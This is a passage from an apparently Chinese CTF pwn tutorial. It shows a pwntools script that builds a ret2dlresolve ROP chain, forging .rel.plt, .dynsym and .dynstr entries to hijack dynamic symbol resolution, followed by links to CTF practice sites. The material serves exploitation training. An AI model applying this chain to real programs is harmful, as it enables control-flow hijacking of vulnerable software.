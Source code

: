代码为：

```
#获取plt[0]地址
plt0 = elf.get_section_by_name('.plt').header.sh_addr
#获取.rel.plt地址
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
#获取.dynsym的基地址
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
#获取.dynstr的基地址
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

#在base_stage + 32的地方开始部署.dynsym结构体
fake_sym_addr = base_stage + 32
#对齐
Align = 0x10 - ((fake_sym_addr - dynsym) & 0xf )
fake_sym_addr = fake_sym_addr + Align
fake_write_sym = flat([0x54,0,0,0x12]) #伪造的.dynsym结构体
#计算.dynsym结构体下标
index_dynsym = int((fake_sym_addr - dynsym) / 0x10)

#计算.dynstr偏移准备更改.dynsym成员变量st_name
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name,0,0,0x12]) #伪造的.dynsym结构体

#那么在base_stage + 24的位置存放伪造结构体，并计算index_offset
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']

#由.dynsym下标反推r_info
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got,r_info])

#r_info = 0x507
 
#计算write函数的reloc_index
write_reloc_index = (elf.plt['write'] - plt0) / 16 - 1
#因为索引不能为float，那么修改成int即可
write_reloc_index = int(write_reloc_index) * 8




rop.raw(plt0)
#rop.raw(write_reloc_index)
rop.raw(index_offset)

#伪造write函数的ret addr
rop.raw('bbbb') #write函数的返回地址
rop.raw(1) #write函数的第一个参数
rop.raw(base_stage + 80) #write函数的第二个参数
rop.raw(len(sh)) #write函数的第三个参数
rop.raw(fake_write_reloc) #伪造的.rel.plt的结构体
rop.raw('a' * Align) #对齐
rop.raw(fake_write_sym) #伪造的.dynsym的结构体
rop.raw('write\x00')# 伪造的.dynstr
#rop.raw(write_got)
#rop.raw(r_info)
# rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))
#print(rop.dump())#可查看栈布局


```

[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"